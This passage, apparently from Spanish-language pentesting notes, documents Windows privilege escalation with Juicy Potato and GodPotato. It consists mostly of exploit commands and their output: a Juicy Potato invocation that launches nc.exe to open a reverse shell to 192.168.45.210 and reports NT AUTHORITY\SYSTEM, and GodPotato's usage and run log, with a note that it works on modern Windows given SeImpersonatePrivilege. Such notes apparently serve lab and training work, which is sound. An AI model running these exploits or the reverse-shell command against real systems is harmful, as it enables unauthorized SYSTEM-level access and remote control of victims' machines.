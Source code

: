 ```powershell

C:\wamp\www>.\Juicy.Potato.x86.exe -l 53375 -p c:\Windows\System32\cmd.exe -a "/c c:\wamp\www\nc.exe 192.168.45.210 5555 -e cmd.exe" -t * -c {C49E32C6-BC8B-11d2-85D4-00105A1F8304}
Testing {C49E32C6-BC8B-11d2-85D4-00105A1F8304} 53375
....
[+] authresult 0
{C49E32C6-BC8B-11d2-85D4-00105A1F8304};NT AUTHORITY\SYSTEM

``` 

-----

### GodPotato
- Afecta a versiones modernas si tenemos el privilegio SeImpersonatePrivilege.
- [Repositorio](https://github.com/BeichenDream/GodPotato)

```powershell

c:\Users\Public\GodPotato-NET4.exe
                                                                                               
    FFFFF                   FFF  FFFFFFF                                                       
   FFFFFFF                  FFF  FFFFFFFF                                                      
  FFF  FFFF                 FFF  FFF   FFF             FFF                  FFF                
  FFF   FFF                 FFF  FFF   FFF             FFF                  FFF                
  FFF   FFF                 FFF  FFF   FFF             FFF                  FFF                
 FFFF        FFFFFFF   FFFFFFFF  FFF   FFF  FFFFFFF  FFFFFFFFF   FFFFFF  FFFFFFFFF    FFFFFF   
 FFFF       FFFF FFFF  FFF FFFF  FFF  FFFF FFFF FFFF   FFF      FFF  FFF    FFF      FFF FFFF  
 FFFF FFFFF FFF   FFF FFF   FFF  FFFFFFFF  FFF   FFF   FFF      F    FFF    FFF     FFF   FFF  
 FFFF   FFF FFF   FFFFFFF   FFF  FFF      FFFF   FFF   FFF         FFFFF    FFF     FFF   FFFF 
 FFFF   FFF FFF   FFFFFFF   FFF  FFF      FFFF   FFF   FFF      FFFFFFFF    FFF     FFF   FFFF 
  FFF   FFF FFF   FFF FFF   FFF  FFF       FFF   FFF   FFF     FFFF  FFF    FFF     FFF   FFFF 
  FFFF FFFF FFFF  FFF FFFF  FFF  FFF       FFF  FFFF   FFF     FFFF  FFF    FFF     FFFF  FFF  
   FFFFFFFF  FFFFFFF   FFFFFFFF  FFF        FFFFFFF     FFFFFF  FFFFFFFF    FFFFFFF  FFFFFFF   
    FFFFFFF   FFFFF     FFFFFFF  FFF         FFFFF       FFFFF   FFFFFFFF     FFFF     FFFF    


Arguments:

	-cmd Required:True CommandLine (default cmd /c whoami)

Example:

GodPotato -cmd "cmd /c whoami" 
GodPotato -cmd "cmd /c whoami" 


c:\windows\system32\inetsrv>c:\Users\Public\GodPotato-NET4.exe -cmd "cmd /c whoami"
c:\Users\Public\GodPotato-NET4.exe -cmd "cmd /c whoami"
[*] CombaseModule: 0x140715645927424
[*] DispatchTable: 0x140715648233536
[*] UseProtseqFunction: 0x140715647610064
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] Trigger RPCSS
[*] CreateNamedPipe \\.\pipe\ca325e81-9e6f-49eb-a8cd-c45cec8c750b\pipe\epmapper
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 0000a802-02c0-ffff-5aab-e8e14a3bd34a
[*] DCOM obj OXID: 0x2efb74e345b53fb6
[*] DCOM obj OID: 0x8313c62f83938f2f
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
```